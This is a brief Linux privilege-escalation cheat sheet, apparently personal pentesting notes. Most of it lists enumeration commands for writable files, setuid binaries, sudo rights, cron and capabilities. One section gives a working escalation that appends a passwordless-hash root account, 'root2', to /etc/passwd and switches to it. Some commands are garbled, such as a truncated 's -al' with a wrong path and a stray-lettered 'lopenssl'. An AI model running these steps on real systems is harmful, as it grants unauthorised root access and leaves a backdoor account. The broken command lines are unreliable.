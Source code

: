 #Linux PrivEsc
## Find interesting files
find / -writable -type f 2>/dev/null  #Writable files\
find / -writable -type d 2>/dev/null #Writable directories\
find / -perm -u=s -type f 2>/dev/null #Setuid executables

## Passwd file writable?
s -al /var/etc/passwd \
lopenssl passwd w00t\
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd\
su root2

## OS information --> kernel exploit?
hostname\
cat /etc/issue\
cat /etc/os-release\
uname -a

## Envirionment variables
env 

## Sudo privileges
sudo -l 

## Running services
ps -aux (evt met watch) 

## Cron
grep "CRON"  /var/log/syslog\

 ## Possible overprived services/applicaitons\
/usr/sbin/getcap -r / 2>/dev/null 

